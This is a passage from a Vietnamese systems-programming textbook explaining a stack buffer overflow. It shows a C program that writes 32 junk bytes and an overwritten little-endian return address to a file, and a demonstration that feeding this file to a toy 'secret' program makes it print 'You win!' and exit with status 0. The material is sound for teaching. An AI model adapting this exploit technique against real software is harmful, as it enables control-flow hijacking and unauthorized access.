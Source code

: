 Một lần nữa, vì x86 là hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order) trong đó stack phát triển về phía địa chỉ thấp hơn, nên các byte trong địa chỉ trả về sẽ xuất hiện theo thứ tự đảo ngược.

Chương trình dưới đây minh họa cách một kẻ tấn công có thể tạo ra exploit như trên:

```c
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /* 10 byte rác đầu tiên */
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /* 10 byte rác tiếp theo */
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /* 10 byte rác tiếp theo nữa */
"\x31\x32"                                 /* 2 byte rác cuối */
"\x64\x85\x04\x08"                         /* địa chỉ của endGame (little-endian) */
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /* in từng ký tự */
        printf("%c", ebuff[i]);
    }
    return 0;
}
```

Ký tự `\x` trước mỗi số cho biết số đó được biểu diễn ở dạng giá trị thập lục phân của một ký tự. Sau khi định nghĩa `ebuff[]`, hàm `main` chỉ đơn giản in ra từng ký tự một.  
Để tạo chuỗi byte tương ứng, biên dịch và chạy chương trình như sau:

```
$ gcc -o genEx genEx.c
$ ./genEx > exploit
```

Để dùng file `exploit` làm input cho `scanf`, chỉ cần chạy `secret` với `exploit` như sau:

```
$ ./secret < exploit
Enter secret number:
You are so wrong!
You win!
```

Chương trình in ra `"You are so wrong!"` vì chuỗi trong `exploit` **không** phải là số bí mật. Tuy nhiên, chương trình cũng in `"You win!"`.  
Hãy nhớ rằng mục tiêu của chúng ta là đánh lừa chương trình trả về `0`. Trong một hệ thống lớn hơn, nơi trạng thái “thành công” được theo dõi bởi một chương trình bên ngoài, điều quan trọng nhất thường là giá trị trả về của chương trình, chứ không phải những gì nó in ra.

Kiểm tra giá trị trả về:

```
$ echo $?
0
```
